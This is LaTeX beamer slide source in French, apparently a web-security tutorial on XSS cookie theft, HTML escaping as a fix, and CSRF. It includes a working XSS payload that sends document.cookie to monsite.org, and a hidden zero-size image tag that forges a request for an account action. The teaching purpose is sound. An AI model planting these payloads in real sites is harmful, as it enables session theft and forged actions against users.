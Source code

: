 \documentclass{beamer}
\begin{document}
\begin{frame}{Comment voler les cookies ?}
	\begin{itemize}
		\item Contenus dans document.cookie
		\item Nécessite un serveur, avec un fichier enregistrant ce qu'on lui envoie
		\item <script>window.location.replace('http://monsite.org/index.php?c=' + document.cookie.toString())</script>
	\end{itemize}
\end{frame}

\begin{frame}{Comment la sécuriser ?}
	\begin{itemize}
		\item Echapper les caractères
		\item Remplace donc par exemple < par \&lt\;
		\item Affiche donc au final <script>alert('Hello')</script> et n'éxécute pas le code
	\end{itemize}
\end{frame}

\section{Faille CSRF}

\begin{frame}{CSRF}
	\begin{itemize}
		\item Acronyme de Cross-Site Request Forgery
		\item Permet d'utiliser les droits d'un autre utilisateur pour faire ce que l'on veut
	\end{itemize}
\end{frame}

\begin{frame}{Comment ça marche?}
	\begin{itemize}
		\item Demander à un utilisateur d'aller sur un lien
		\item Ou le cacher dans une image :
		\item $<$img src="http://monsite.org/compte.php?numeroCompte=1337" \\
				width="0" height="0" border="0"$>$
		\item L'utilisateur va donc effectuer l'action que l'on veut avec sa session
	\end{itemize}
\end{frame}
\end{document}

